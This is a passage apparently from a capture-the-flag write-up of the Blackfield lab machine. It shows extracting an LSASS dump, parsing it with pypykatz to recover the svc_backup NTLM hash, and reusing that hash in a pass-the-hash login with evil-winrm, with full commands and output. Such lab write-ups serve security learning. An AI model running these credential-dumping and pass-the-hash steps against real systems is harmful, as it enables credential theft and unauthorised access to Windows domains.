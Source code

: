 ````bash
  wlms.zip                            A  4067425  Thu May 28 22:27:44 2020
  WmiPrvSE.zip                        A 18303252  Thu May 28 22:27:53 2020
````

````bash
❯ unzip lsass.zip
Archive:  lsass.zip
  inflating: lsass.DMP  
````

Once we extracted the contents of **lsass.zip**, we'll use **pypykatz** to dump the information.

**pypykatz** is a Python tool that can parse and extract credentials from **LSASS** memory dumps. It is capable of retrieving plaintext passwords, NTLM hashes, and Kerberos tickets from a dump of the **Local Security Authority Subsystem Service (LSASS)** process, which stores sensitive authentication data.

After running **pypykatz** to dump the contents, we found an **NTLM hash** for the **svc_backup** user. This hash can be used for pass-the-hash attacks or cracked to recover the user's plaintext password.

````bash
❯  pypykatz lsa minidump lsass.DMP
INFO:pypykatz:Parsing file lsass.DMP
FILE: ======== lsass.DMP =======
== LogonSession ==
authentication_id 406458 (633ba)
session_id 2
username svc_backup
domainname BLACKFIELD
logon_server DC01
logon_time 2020-02-23T18:00:03.423728+00:00
sid S-1-5-21-4194615774-2175524697-3563712290-1413
luid 406458
	== MSV ==
		Username: svc_backup
		Domain: BLACKFIELD
		LM: NA
		NT: 9658d1d1dcd9250115e2205d9f48400d
		SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
		DPAPI: a03cd8e9d30171f3cfe8caad92fef62100000000
````

### Pass the hash
---
Now, with the **NTLM hash** for the **svc_backup** service user, we'll perform a **Pass-the-Hash (PTH)** attack to authenticate via **WINRM**.

**Pass-the-Hash** is an attack technique where we use the **NTLM hash** of a user's password instead of the actual plaintext password to authenticate to a system. This allows us to bypass the need for cracking the password and directly gain access to systems that accept the hash for authentication, such as through **WINRM** in this case.

````powershell
evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d

*Evil-WinRM* PS C:\Users\svc_backup\Desktop> ls


    Directory: C:\Users\svc_backup\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        2/28/2020   2:26 PM             32 user.txt

````